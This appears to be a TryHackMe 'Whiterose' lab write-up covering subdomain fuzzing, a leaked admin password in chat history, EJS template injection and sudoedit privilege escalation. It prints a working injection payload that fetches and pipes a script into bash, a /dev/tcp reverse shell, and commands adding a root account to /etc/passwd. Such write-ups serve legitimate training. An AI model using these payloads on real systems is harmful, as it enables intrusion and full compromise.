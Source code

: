 ```yaml
---
title: 'Whiterose'
description: 'Vhost fuzzing, Server-side template injection (STTI) for EJS and privilege escalation through sudoedit'
pubDate: 2024-11-08
category: 'tryhackme'
tags: ['STTI', 'EJS']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/5f9c7574e201fe31dad228fc-1726214297023'
---
```


We get these credentials from the TryHackMe page:
`Olivia Cortez:olivi8`

When searching for subdomains we find 2 new ones:

```bash
ffuf -u http://cyprusbank.thm/ -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fw 1
...[snip]...
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 31ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 30ms]
```

We can log in to the admin page with the provided credentials from Olivia Cortez.

We can see that we can access messages but not the settings page and that we can't see the phone numbers.

When looking at the messages page there is a param in the URL which seems weird, when setting that to `0` we see more of the history of the chat:

http://admin.cyprusbank.thm/messages/?c=0
```
DEV TEAM: Thanks Gayle, can you share your credentials? We need privileged admin account for testing

Gayle Bev: Of course! My password is 'p~]P@5!6;rs558:q'

DEV TEAM: Alright we are trying to implement chat history, everything should be ready in week or so

Gayle Bev: That's nice to hear!
```

Now we have credentials to a user with more privileges.
`Gayle Bev:p~]P@5!6;rs558:q`

When logging in with `Gayle` we can see the phone numbers of the user and have access to the `Settings` page.

# USER

When intercepting the settings request and playing around with the body we discover that it uses `ejs`.
If we search for STTI for EJS we find this post: https://eslam.io/posts/ejs-server-side-template-injection-rce/

The payload that eventually works is:
```
name=Moo&password=password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.23.19.211:8000/shell.sh | bash');//
```

`shell.sh`:
```bash
bash -i >& /dev/tcp/10.23.19.211/4444 0>&1
```

# ROOT

The first thing we should do is check if the user can run anything as root.

```bash
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH
    XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

We can epxloit this by changing the default editor to open any file (https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/)

```bash
mkpasswd -m md5
openssl passwd password
$1$xvaUIFk4$hxAczac0grjYsVhJmYm0W1
```

Now we can add a new user with the password hash we just generated:
```bash
export EDITOR="nano -- /etc/passwd"
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

...[snip]...
moo:$1$xvaUIFk4$hxAczac0grjYsVhJmYm0W1:0:0:root:/root:/bin/bash
```

Change to the new user:

```bash
su moo
Password:
root@cyprusbank:/home/web/app# id
uid=0(root) gid=0(root) groups=0(root)
```
